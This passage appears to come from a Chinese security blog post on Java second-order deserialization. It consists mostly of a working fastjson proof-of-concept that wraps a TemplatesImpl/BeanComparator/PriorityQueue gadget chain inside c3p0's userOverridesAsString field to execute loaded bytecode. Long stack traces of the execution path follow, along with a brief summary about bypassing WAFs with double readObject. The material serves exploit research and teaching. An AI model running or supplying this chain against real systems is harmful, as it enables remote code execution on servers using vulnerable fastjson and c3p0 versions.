at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:2128)
at org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1279)
at org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(PropertyUtilsBean.java:809)
at org.apache.commons.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:885)
at org.apache.commons.beanutils.PropertyUtils.getProperty(PropertyUtils.java:464)
at org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:163)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:721)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:687)
at java.util.PriorityQueue.heapify(PriorityQueue.java:736)
at java.util.PriorityQueue.readObject(PriorityQueue.java:795)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at com.mchange.v2.ser.SerializableUtils.deserializeFromByteArray(SerializableUtils.java:144)
at com.mchange.v2.ser.SerializableUtils.fromByteArray(SerializableUtils.java:123)
at com.mchange.v2.c3p0.impl.C3P0ImplUtils.parseUserOverridesAsString(C3P0ImplUtils.java:318)
at com.mchange.v2.c3p0.WrapperConnectionPoolDataSource$1.vetoableChange(WrapperConnectionPoolDataSource.java:110)
at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:375)
at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:271)
at com.mchange.v2.c3p0.impl.WrapperConnectionPoolDataSourceBase.setUserOverridesAsString(WrapperConnectionPoolDataSourceBase.java:387)
at org.example.Exp.C3P0WrapperPoc.main(C3P0WrapperPoc.java:40)
```

fastjsonPoc

```java
package org.example.Exp;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class C3P0WrapperPoc {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()
        });
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue<Object> queue = new PriorityQueue<>(2, comparator);
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        byte[] bytes = serialize(queue);
        String hex = "{\n" +
                "    \"rand1\": {\n" +
                "        \"@type\": \"java.lang.Class\",\n" +
                "        \"val\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"\n" +
                "    },\n" +
                "    \"rand2\": {\n" +
                "        \"@type\": \"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n" +
                "        \"userOverridesAsString\": \"HexAsciiSerializedMap:" + bytesToHexString(bytes, bytes.length) + ";\",\n" +
                "    }\n" +
                "}";
        //System.out.println(hex);
        JSON.parseObject(hex);
    }

    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        return byteArrayOutputStream.toByteArray();
    }
    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);
        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
}
```

调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:2128)
at org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1279)
at org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(PropertyUtilsBean.java:809)
at org.apache.commons.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:885)
at org.apache.commons.beanutils.PropertyUtils.getProperty(PropertyUtils.java:464)
at org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:163)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:721)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:687)
at java.util.PriorityQueue.heapify(PriorityQueue.java:736)
at java.util.PriorityQueue.readObject(PriorityQueue.java:795)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at com.mchange.v2.ser.SerializableUtils.deserializeFromByteArray(SerializableUtils.java:144)
at com.mchange.v2.ser.SerializableUtils.fromByteArray(SerializableUtils.java:123)
at com.mchange.v2.c3p0.impl.C3P0ImplUtils.parseUserOverridesAsString(C3P0ImplUtils.java:318)
at com.mchange.v2.c3p0.WrapperConnectionPoolDataSource$1.vetoableChange(WrapperConnectionPoolDataSource.java:110)
at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:375)
at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:271)
at com.mchange.v2.c3p0.impl.WrapperConnectionPoolDataSourceBase.setUserOverridesAsString(WrapperConnectionPoolDataSourceBase.java:387)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:110)
at com.alibaba.fastjson.parser.deserializer.DefaultFieldDeserializer.parseField(DefaultFieldDeserializer.java:124)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField(JavaBeanDeserializer.java:1078)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:773)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:271)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:267)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:384)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:544)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1356)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1322)
at com.alibaba.fastjson.JSON.parse(JSON.java:152)
at com.alibaba.fastjson.JSON.parse(JSON.java:162)
at com.alibaba.fastjson.JSON.parse(JSON.java:131)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:223)
at org.example.Exp.C3P0WrapperPoc.main(C3P0WrapperPoc.java:42)
```

## 小结

除了上面类似的经典方法还有一些方法，比如Jtools中利用 MapProxy 到 BeanConverter 的二次反序列化，主要学习其核心思想，双层 readObject 绕过重写方法中的 waf～

> https://xz.aliyun.com/news/13340
>
> https://eddiemurphy89.github.io/2024/08/04/%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
>
> https://www.cnblogs.com/gaorenyusi/p/18396846
>
> https://tttang.com/archive/1701/
>
> https://www.freebuf.com/articles/web/437442.html
